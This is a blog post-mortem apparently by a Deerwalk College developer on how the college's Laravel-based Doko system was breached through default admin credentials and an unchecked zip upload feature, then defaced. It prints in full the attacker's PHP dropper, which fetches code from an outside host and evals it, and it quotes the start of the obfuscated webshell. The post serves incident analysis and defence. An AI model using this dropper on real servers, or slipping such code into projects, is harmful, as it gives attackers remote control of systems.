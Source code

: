 +++
title = "How Deerwalk College's Doko was Hacked"
date = 2024-12-20
description = "Deerwalk College's Student Profile and Exam papers management system Doko was hacked by Indo hackers"
[taxonomies]
categories = ["tech"]
tags = ["deerwalk","cybersecurity"]
[extra]
lang = "en"
toc = true
+++

> TLDR: Insecure credentials and file upload vulnerability in the zip file parsing funtionality gives hackers RCE in the system. Which is then used to Deface the website.

# Context
A few week ago, Deerwalk college's student profile and exam paper management system [Doko](https://doko.dwit.edu.np) was hacked by Indonesian hackers and defaced to show a online casino slot platform. The DevOps team went into damage control mode and changes were made. The first thing we did was change the Policy of the security group of our Amazon EC2 instance to only allow connections from within the college network. We werent quite sure of how the hacker got in or how they managed to deface our application which was built with Laravel.


# Analysis
A few days later I was sent the `access` and `error` logs by the DevOps team to properly analyze the network traffic to figure out how they got in. I saw a Indobesian IP address logging in to our system. How did they get our credentials? Turns out we were using the username `admin` and the password of `password` when we were developing the application and never really got around to changing it. Now the hacker had access to the management/admin panel, great.

# RCE?

How did they get remote code execution on our system? As I was going through our uploads directory and was searching for a potential file upload vulnerability and there it was. A rogue `.php` file (`"Srijal Jaisi.php"`) with a real students name.

We had a "bulk upload" feature into our website where the admin could upload a zip with compressed images and the backend would unzip it and place it in a publicly indexable place (/uploads). However we did not have checks to ensure that the file uploaded was indeed an image file. Which led the hacker who already had access to upload a php file.

{{ figure(src="/img/dropper.png" alt="The Plan" via=" ") }}


# A deeper look

Looking into the `.php` stage 1 dropper file we see
```php
<?php
    $Url = "https://bujang.online/raw/AbSGSvJgKn";
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $Url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $output = curl_exec($ch);
    curl_close($ch);
    echo eval('?>'.$output);
   ?>
```
The dropper loads the malware from the `https://bujang.online/raw/AbSGSvJgKn` URL and then evals it. Looking at the content from `https://bujang.online/raw/AbSGSvJgKn`. We can see that its heavily obfusticated.

The payload starts with 

```php
<?php
/*   __________________________________________________
    |  Obfuscated by YAK Pro - Php Obfuscator  2.0.14  |
    |              on 2023-09-19 01:16:16              |
    |    GitHub: https://github.com/pk-fr/yakpro-po    |
    |__________________________________________________|
*/
 goto E1NcZ;
 ```

which tells us that they are using a open source php obfusticator called Yak Pro. The payload is over 1500 lines long and full of `goto` statements which makes it impossible to analyse it manually. First thing I did was "prettify" the file such that it's somewhat readable. Once it was readable, I was able to understand and research on some parts of the file. All the variable names were in Indonesian which was more evidence that the hacker was indeed from Indonesia.

Uploading the php file in VirusTotal led us to [this article](https://www.foregenix.com/blog/php-webshell-barner-detect-website-malware) from which we were now certain that this was a sophisticated full administrator access. This is how the hacker had been defacing Doko and when we removed all the static files from the server (images/documents) the hackers webshell access is removed and we no longer have issues.

# Conclusion
There was a LOT that could have been better from our side. For starters we did not change the insecure default credentials, which was a huge factor into how the hacker got in. In our code we did not have file validation and checks for the zip feature. We should have been a lot more careful especially since the app was built with php. We'll be deploying the new version of Doko on the first week of July.

# Doko 3.0
Doko 3.0 was already in development when the current verson was hacked, this new doko(3.0) is built under the leadership of Krish Devkota with a much modern tech stack and security practices in mind and new doko should be out within the first week of July.
